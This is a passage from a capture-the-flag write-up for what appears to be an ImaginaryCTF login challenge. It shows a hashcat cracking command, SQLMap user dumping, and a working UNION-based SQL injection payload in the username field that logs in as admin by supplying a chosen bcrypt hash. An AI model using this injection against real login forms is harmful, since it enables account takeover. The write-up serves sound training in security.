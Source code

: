 {% code overflow="wrap" %}
```bash
hashcat.exe -m 3200 hashes/hashes.txt wordlists/rockyou.txt
```
{% endcode %}

Not likely to be intended lol. I guess we could half the time by only trying to crack the admin password. I ran SQLMap again and dumped the users; `guest` and `admin`.

Note, we can login as `guest:guest` but just get `Welcome guest! But there is no flag here :P`.

Maybe [Password_verify() always return true with some hash](https://bugs.php.net/bug.php?id=81744)

Nope, didn't work for me. Maybe [SQL Injection with password_verify()](https://stackoverflow.com/a/50788204)

It looks good! According to [this answer](https://stackoverflow.com/a/50788242) we can select a username, along with a "fake" password hash of our choice.

{% code overflow="wrap" %}
```sql
 SELECT * FROM table
 WHERE Username = 'xxx'
 UNION SELECT 'root' AS username, '$6$ErsDojKr$7wXeObXJSXeSRzCWFi0ANfqTPndUGlEp0y1NkhzVl5lWaLibhkEucBklU6j43/JeUPEtLlpRFsFcSOqtEfqRe0' AS Password'
```
{% endcode %}

Took some trial and error but eventually:

{% code overflow="wrap" %}
```sql
guest' UNION SELECT 'admin', '$2y$10$vw1OC907/WpJagql/LmHV.7zs8I3RE9N0BC4/Tx9I90epSI2wr3S.' AS pwhash --
```
{% endcode %}

So the full SQL statement on the backend will look like.

{% code overflow="wrap" %}
```sql
$res = $db->querySingle("SELECT username, pwhash FROM users WHERE username = 'guest' UNION SELECT 'admin', '$2y$10$vw1OC907/WpJagql/LmHV.7zs8I3RE9N0BC4/Tx9I90epSI2wr3S.' AS pwhash --'", true);
```
{% endcode %}

Essentially, it's grabbing the `admin` user along with the `guest` password hash (which we know translates to `guest`). We login (username set to our SQLi payload and the password is `guest`). Our `magic` value is in the source!

{% code overflow="wrap" %}
```html
Welcome admin! But there is no flag here :P<!-- magic: 688a35c685a7a654abc80f8e123ad9f0 -->
```
{% endcode %}

Now we know that visiting http://login.chal.imaginaryctf.org/?688a35c685a7a654abc80f8e123ad9f0 will trigger the following code, appending the flag to the password.
